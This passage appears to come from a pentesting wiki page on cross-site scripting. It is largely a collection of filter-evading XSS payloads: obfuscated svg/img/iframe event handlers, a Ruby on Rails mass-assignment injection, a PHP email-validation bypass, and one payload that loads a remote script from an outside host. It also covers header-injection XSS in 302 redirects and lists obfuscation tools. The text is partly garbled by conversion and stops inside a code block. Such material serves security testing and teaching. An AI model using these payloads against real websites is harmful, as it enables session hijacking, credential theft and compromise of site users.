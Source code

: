 \`\`\` ## \*\*DOM vulnerabilities\*\* There is \*\*JS code\*\* that is using \*\*unsafely data controlled by an attacker\*\* like \`location.href\` . An attacker, could abuse this to execute arbitrary JS code. \*\*Due to the extension of the explanation of\*\* \[\*\*DOM vulnerabilities it was moved to this page\*\*]\(dom-xss.md)\*\*:\*\* \{% page-ref page="dom-xss.md" %\} There you will find a detailed \*\*explanation of what DOM vulnerabilities are, how are they provoked, and how to exploit them\*\*. Also, don't forget that \*\*at the end of the mentioned post\*\* you can find an explanation about \[\*\*DOM Clobbering attacks\*\*]\(dom-xss.md#dom-clobbering). ## Other Bypasses ### Normalised Unicode You could check is the \*\*reflected values\*\* are being \*\*unicode normalized\*\* in the server \\(or in the client side\\) and abuse this functionality to bypass protections. \[\*\*Find an example here\*\*]\(../unicode-normalization-vulnerability.md#xss-cross-site-scripting). ### PHP FILTER\\\_VALIDATE\\\_EMAIL flag Bypass \`\`\`javascript ">"@x.y \`\`\` ### Ruby-On-Rails bypass Due to \*\*RoR mass assignment\*\* quotes are inserted in the HTML and then the quote restriction is bypassed and additoinal fields \\(onfocus\\) can be added inside the tag. Form example \\(\[from this report]\(https://hackerone.com/reports/709336)\\), if you send the payload: \`\`\`text contact\[email] onfocus=javascript:alert('xss') autofocus a=a\&form\_type\[a]aaa \`\`\` The pair "Key","Value" will be echoed back like this: \`\`\`text {" onfocus=javascript:alert('xss') autofocus a"=>"a"} \`\`\` Then, the onfocus attribute will be inserted: !\[]\(../../.gitbook/assets/image%20%2882%29.png) A XSS occurs. ### Special combinations \`\`\`markup ![](https://github.com/boitatech/hacktricks/tree/14ead4a6929a3874c3681cbe46d7279d0916673d/pentesting-web/xss-cross-site-scripting/1) alert(1) alert('XSS')\
\<svg/onload=location=\`javas\`+\`cript:ale\`+\`rt%2\`+\`81%2\`+\`9\`;//\
\<svg////////onload=alert(1)>\
\<svg id=x;onload=alert(1)>\
\<svg id=\`x\`onload=alert(1)>\
\<img src=1 alt=al lang=ert onerror=top\[alt+lang]\(0)>\
\<script>$=1,alert($)confirm(1)$=1,\u0061lert($)\<eval('\\\u'+'0061'+'lert(1)')//<\u0061lert(1)alert(1) ![String.fromCharCode(88,83,83)](x:prompt\(eval\(alt\)\))alert('1'\&#41\</x>\
\<iframe src=""/srcdoc='\<svg onload=alert(1)>'>\
\<svg>\<animate onbegin=alert() attributeName=x>\</svg>\
\<img/id="alert('XSS')\\"/alt=\\"/\\"src=\\"/\\"onerror=eval(id)>\
\<img src=1 onerror="s=document.createElement('script');s.src='http://xss.rocks/xss.js';document.body.appendChild(s);"\
\`\`\`\
\
\### XSS with header injection in a 302 response\
\
If you find that you can \*\*inject headers in a 302 Redirect response\*\* you could try to \*\*make the browser execute arbitrary JavaScript\*\*. This is \*\*not trivial\*\* as modern browsers do not interpret the HTTP response body if the HTTP response status code is a 302, so just a cross-site scripting payload is useless.\
\
In \[\*\*this report\*\*]\(https://www.gremwell.com/firefox-xss-302) and \[\*\*this one\*\*]\(https://www.hahwul.com/2020/10/03/forcing-http-redirect-xss/) you can read how you can test several protocols inside the Location header and see if any of them allows the browser to inspect and execute the XSS payload inside the body.  \
Past known protocols: \`mailto://\`, \`//x:1/\`, \`ws://\`, \`wss://\`, \_empty Location header\_, \`resource://\`.\
\
\### Obfuscation & Advanced Bypass\
\
\* \[https://github.com/aemkei/katakana.js]\(https://github.com/aemkei/katakana.js)\
\* \[https://ooze.ninja/javascript/poisonjs]\(https://ooze.ninja/javascript/poisonjs) \
\* \[https://javascriptobfuscator.herokuapp.com/]\(https://javascriptobfuscator.herokuapp.com/) \
\* \[https://skalman.github.io/UglifyJS-online/]\(https://skalman.github.io/UglifyJS-online/) \
\* \[http://www.jsfuck.com/]\(http://www.jsfuck.com/)\
\* More sofisticated JSFuck: \[https://medium.com/@Master\\\_SEC/bypass-uppercase-filters-like-a-pro-xss-advanced-methods-daf7a82673ce]\(https://medium.com/@Master\_SEC/bypass-uppercase-filters-like-a-pro-xss-advanced-methods-daf7a82673ce)\
\* \[http://utf-8.jp/public/jjencode.html]\(http://utf-8.jp/public/jjencode.html)\
\* \[https://utf-8.jp/public/aaencode.html]\(https://utf-8.jp/public/aaencode.html)\
\
\`\`\`javascript\
//Katana\